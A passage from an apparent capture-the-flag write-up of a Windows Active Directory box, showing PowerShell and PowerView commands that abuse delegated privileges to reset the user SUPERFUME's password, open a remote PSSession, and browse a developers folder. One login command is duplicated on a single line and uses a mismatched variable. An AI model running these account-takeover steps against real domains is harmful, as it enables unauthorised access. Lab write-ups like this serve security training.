 > **let's check the password and list the shares..**

![](https://i.ibb.co/wKkZ0KV/zaiusss.png)

* nice, we owned the seconed user, let's get back to bloodhound.

> **the next user we should own it's `SUPERFUME` , Because this user has access to `C:\\developer` and there is something delicious for us hhahahah.**

> **we can own it with the same way we owned `DR.ZAIUSS` because `DR.ZAIUSS` has all `Privileges` On `SUPERFUME`.**

![](https://i.ibb.co/6Dn7h91/SUPERFU.png)

> **`$SecPassword = ConvertTo-SecureString 'Password123@@' -AsPlainText -Force`**

> **`$Cred = New-Object System.Management.Automation.PSCredential('licordebellota\DR.ZAIUSS', $SecPassword)`**

> **`$UserPassword = ConvertTo-SecureString 'Password123@@' -AsPlainText -Force`**

> **`Set-DomainUserPassword -Identity superfume -AccountPassword $UserPassword -Credential $Cred`**

> **and we can login with this command**.

> **`$userpass = ConvertTo-SecureString 'Password123@@' -AsPlainText -Force`**

> **`$creds = New-Object System.Management.Automation.PSCredential('licordebellota\superfume', $SecPassword)`**

> **`New-PSSession -ComputerName pivotAPI -Credential $credsNew-PSSession -ComputerName pivotAPI -Credential $creds`**
> **`Enter-PSSession 1`**

![](https://i.ibb.co/j8Fvv85/superfume-done.png)

> **let's see what is in the `Developers` directory.**

```ruby

[pivotAPI]: PS C:\> cd .\Developers\
[pivotAPI]: PS C:\Developers> ls


    Directorio: C:\Developers


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       08/08/2020     19:26                Jari
d-----       08/08/2020     19:23                Superfume


[pivotAPI]: PS C:\Developers> cd jari
[pivotAPI]: PS C:\Developers\jari> ls


    Directorio: C:\Developers\jari


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       08/08/2020     19:26           3676 program.cs
-a----       08/08/2020     19:18           7168 restart-mssql.exe


```
